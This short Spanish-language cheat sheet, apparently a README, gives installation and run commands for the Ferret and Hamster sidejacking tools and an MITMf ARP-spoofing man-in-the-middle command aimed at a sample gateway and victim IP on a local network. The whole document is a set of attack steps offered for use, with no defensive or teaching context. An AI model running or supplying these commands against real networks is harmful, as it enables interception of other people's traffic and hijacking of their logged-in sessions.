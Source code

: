 # Instalacion de ferret
##### En sistemas de 64 bits:
```bash
apt-get install ferret-sidejack
```

##### En sistemas de 32 bits
```bash
dpkg --add-architecture i386 && apt-get update && apt-get install ferret-sidejack:i386
```

# Iniciar Ferret
```bash
ferret -i [interface]
```

# Capturar tráfico con Hamster
```bash
hamster 
```

# Ataque Man-in-the-Middle
```bash
mitmf --arp --spoof --gateway 192.168.1.1 --target 192.168.1.101 -i eth0
```


